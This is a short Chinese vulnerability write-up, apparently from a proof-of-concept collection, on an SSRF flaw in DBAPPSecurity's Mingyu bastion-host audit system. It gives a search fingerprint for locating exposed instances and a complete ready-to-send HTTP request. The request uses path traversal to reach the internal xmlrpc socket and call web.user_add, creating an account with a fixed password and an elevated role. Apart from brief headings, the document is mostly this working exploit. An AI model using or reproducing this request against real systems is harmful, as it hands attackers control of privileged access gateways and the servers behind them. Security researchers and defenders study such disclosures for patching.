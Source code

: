 # 安恒 明御运维审计与风险控制系统 xmlrpc.sock 任意用户添加漏洞

# 安恒 明御运维审计与风险控制系统 xmlrpc.sock 任意用户添加漏洞

## 漏洞描述

安恒 明御运维审计与风险控制系统 xmlrpc.sock 接口存在SSRF漏洞，通过漏洞可以添加任意用户控制堡垒机

## 漏洞影响

安恒 明御运维审计与风险控制系统

## 网络测绘

```
"明御运维审计与风险控制系统"
```

## 漏洞复现

登陆页面

![image-20230828163144773](images/image-20230828163144773.png)

验证POC

```
POST /service/?unix:/../../../../var/run/rpc/xmlrpc.sock|http://test/wsrpc HTTP/1.1
Host: 
Cookie: LANG=zh; DBAPPUSM=ee4bbf6c85e541bb980ad4e0fbee2f57bb15bafe20a7028af9a0b8901cf80fd3
Content-Length: 1117
Cache-Control: max-age=0
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="100", "Google Chrome";v="100"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

<?xml version="1.0"?>  
<methodCall>
<methodName>web.user_add</methodName>
<params>
<param>
<value>
<array>
<data>
<value>
<string>admin</string>
</value>
<value>
<string>5</string>
</value>
<value>
<string>10.0.0.1</string>
</value>
</data>
</array>
</value>
</param>
<param>
<value>
<struct>
<member>
<name>uname</name>
<value>
<string>test</string>
</value>
</member>
<member>
<name>name</name>
<value>
<string>test</string>
</value>
</member>
<member>
<name>pwd</name>
<value>
<string>1qaz@3edC12345</string>
</value>
</member>
<member>
<name>authmode</name>
<value>
<string>1</string>
</value>
</member>
<member>
<name>deptid</name>
<value>
<string></string>
</value>
</member>
<member>
<name>email</name>
<value>
<string></string>
</value>
</member>
<member>
<name>mobile</name>
<value>
<string></string>
</value>
</member>
<member>
<name>comment</name>
<value>
<string></string>
</value>
</member>
<member>
<name>roleid</name>
<value>
<string>102</string>
</value>
</member>
</struct></value>
</param>
</params>
</methodCall>
```

![image-20230828163201512](images/image-20230828163201512.png)

